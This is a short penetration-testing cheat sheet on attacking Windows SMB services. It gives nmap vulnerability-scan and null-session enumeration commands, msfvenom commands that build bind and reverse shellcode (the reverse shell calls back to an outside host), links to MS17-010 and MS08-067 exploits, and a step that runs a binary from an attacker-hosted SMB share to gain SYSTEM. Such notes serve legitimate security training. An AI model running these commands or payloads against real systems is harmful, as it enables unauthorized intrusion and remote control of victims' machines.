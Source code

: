 # Intro
Following Ressources contain information about SMB protocol and its vulnerabilities:
* MS info: https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview
* Pentesting SMB: https://book.hacktricks.xyz/pentesting/pentesting-smb

# Reconnaisance

* nmap scripts for vulnerability enumeration: `ls /usr/share/nmap/scripts/ | grep smb | grep vuln`
* enumeration: `nmap --script smb-vuln* -p 139,445 -Pn ip` 
* OS enumeration: `nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1`

## **CrackMapExec**: used for basic SMB enumeration

* Null Session:
```
crackmapexec smb ip_addr -u '' -p ''
smbmap -H ip
smbclient -N -L //ip
```
#Exploitation

* Shell code for Windows:
```
msfvenom -p windows/shell_bind_tcp RHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

```

* Polpular exploits:

https://github.com/worawit/MS17-010

https://github.com/andyacer/ms08_067

# Foothold
Typically you get system shell but in case further foothold for lateral movement is needed you can proceede with opening SMB share on attacking maching and upload anything you want.

```
root@kali# locate whoami.exe
/usr/share/windows-binaries/whoami.exe
```
`root@kali# smbserver.py a /usr/share/windows-binaries/`

Get and run on windows
```
C:\WINDOWS\system32>\\10.10.14.14\a\whoami.exe
NT AUTHORITY\SYSTEM
```
